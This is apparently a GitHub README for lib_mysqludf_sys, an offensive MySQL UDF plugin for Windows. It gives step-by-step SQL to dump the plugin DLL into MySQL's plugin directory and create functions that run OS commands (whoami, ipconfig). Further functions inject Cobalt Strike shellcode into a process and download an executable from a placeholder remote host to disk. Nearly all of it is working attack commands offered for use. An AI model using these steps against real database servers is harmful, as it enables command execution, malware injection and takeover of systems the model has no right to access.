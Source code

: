 # lib_mysqludf_sys
lib_mysqludf_sys is a udf plugin of MySQL.

## Into Dumpfile

1.```python3 udf_Bin2Hex.py 1 Release\lib_mysqludf_sys_x64.dll "C:\\Program Files\\MySQL\\MySQL Server 5.5\\lib\\plugin\\lib_mysqludf_sys_x64.dll" > lib_mysqludf_sys_x64.sql```

2.exec .sql file

![](https://cdn.jsdelivr.net/gh/yanghaoi/lib_mysqludf_sys/imgaes/exec_sql.png) 

3.dumpfile lib_mysqludf_sys_x64.dll into lib/plugin

![](https://cdn.jsdelivr.net/gh/yanghaoi/lib_mysqludf_sys/imgaes/dumpfile.png) 

## Sys_exec

1.``` create function sys_exec returns string soname "lib_mysqludf_sys_x64.dll"; 
select sys_exec("chcp 65001 & ipconfig");drop function sys_exec; ```

2.``` create function sys_exec returns string soname "lib_mysqludf_sys_x64.dll"; 
select sys_exec("whoami");drop function sys_exec; ```

![](https://cdn.jsdelivr.net/gh/yanghaoi/lib_mysqludf_sys/imgaes/sys_exec.png) 


## Inject

1.Generate Stage/Stageless RAW file for Cobalt Strike


2.Dumpfile in MySQL machine


3.Inject shellcode

```create function inject returns string soname "lib_mysqludf_sys_x64.dll"; select inject(hex(load_file("C:\\raw.bin")),"AppVNice.exe");drop function inject;```

![](https://cdn.jsdelivr.net/gh/yanghaoi/lib_mysqludf_sys/imgaes/Inject_file.png) 

4.GIF 

![](https://cdn.jsdelivr.net/gh/yanghaoi/lib_mysqludf_sys/imgaes/injectshellcode.gif) 

## Download

```create function download returns string soname "lib_mysqludf_sys_x64.dll"; 
select download("http://xxxx/xxx.exe","C:\\11111.exe");drop function download;```

